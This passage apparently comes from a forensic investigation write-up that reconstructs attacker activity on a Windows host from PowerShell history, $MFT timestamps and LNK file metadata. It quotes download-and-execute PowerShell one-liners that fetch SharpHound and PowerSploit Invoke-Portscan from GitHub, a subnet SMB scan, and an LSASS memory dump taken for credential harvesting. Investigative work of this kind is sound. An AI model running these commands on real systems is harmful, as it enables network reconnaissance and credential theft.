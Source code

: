   - **Powershell History (PSReadLine)** iex (new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1') ; invoke-bloodhound -Collectionmethod dconly
  - **2022-02-19 20:12:55**: File Created ($MFT): \Users\pat.risus\Desktop\20220219201253_BloodHound.zip 
* C:\Users\PAT~1.RIS\AppData\Local\Temp\lsass.DMP
  - LSASS Memory Dump (Cred Harvesting)
  - **2022-02-19 20:47:03**: C:\Users\PAT~1.RIS\AppData\Local\Temp\lsass.DMP - C:\Windows\System32\Taskmgr.exe
* C:\Users\pat.risus\smbScan.gnmap
  - **AllFormatsOut**: Grepable NMAP
  - Output of: Invoke-Portscan.ps1 v0.13 scan
  - IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); invoke-portscan -hosts 172.16.50.0/24 -ports "445" -AllformatsOut smbScan
  - **2022-02-19 20:15:43**: SMBScan File Created ($MFT) -  C:\Users\pat.risus\smbScan.gnmap
* C:\Users\pat.risus\smbScan.nmap
  - **AllFormatsOut**: NMAP
  - Output of: Invoke-Portscan.ps1 v0.13
  - IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); invoke-portscan -hosts 172.16.50.0/24 -ports "445" -AllformatsOut smbScan
  - **2022-02-19 20:15:43**: SMBScan File Created ($MFT) -  C:\Users\pat.risus\smbScan.nmap
* C:\Users\pat.risus\smbScan.xml
  - **AllFormatsOut**: XML
  - Output of: Invoke-Portscan.ps1 v0.13 scan
  - IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); invoke-portscan -hosts 172.16.50.0/24 -ports "445" -AllformatsOut smbScan
  - **2022-02-19 20:15:43**: SMBScan File Created ($MFT) -  C:\Users\pat.risus\smbScan.xml

---

**Finding 1:** Interesting LNK Files:

```
SourceFile: \Users\pat.risus\AppData\Roaming\Microsoft\Windows\Recent\1.lnk
SourceCreated: 2022-03-05 17:11:45
SourceModified: 2022-02-19 21:04:22
SourceAccessed:2022-03-05 17:11:45
TargetCreated: 2022-02-19 21:04:19
TargetModified: 2022-02-19 21:04:19
TargetAccessed: 2022-02-19 21:04:19
FileSize: 0
RelativePath: ..\..\..\..\..\..\brent.socium\1.txt

SourceFile: \Users\pat.risus\AppData\Roaming\Microsoft\Windows\Recent\2.lnk
SourceCreated: 2022-03-05 17:11:45
SourceModified:2022-02-19 21:04:44
SourceAccessed: 2022-03-05 17:11:45
TargetCreated: 2022-02-19 21:04:43
TargetModified: 2022-02-19 21:04:43
TargetAccessed: 2022-02-19 21:04:43
FileSize: 0
RelativePath: ..\..\..\..\..\..\brent.socium\2.txt

SourceFile: \Users\pat.risus\AppData\Roaming\Microsoft\Windows\Recent\20220219201253_BloodHound.lnk
SourceCreated: 2022-03-05 17:11:45
SourceModified:2022-02-19 20:13:40
SourceAccessed: 2022-03-05 17:11:45
TargetCreated: 2022-02-19 20:12:55
TargetModified: 2022-02-19 20:12:55
TargetAccessed: 2022-02-19 20:12:55
FileSize: 15865
RelativePath: ..\..\..\..\..\Desktop\20220219201253_BloodHound.zip
```
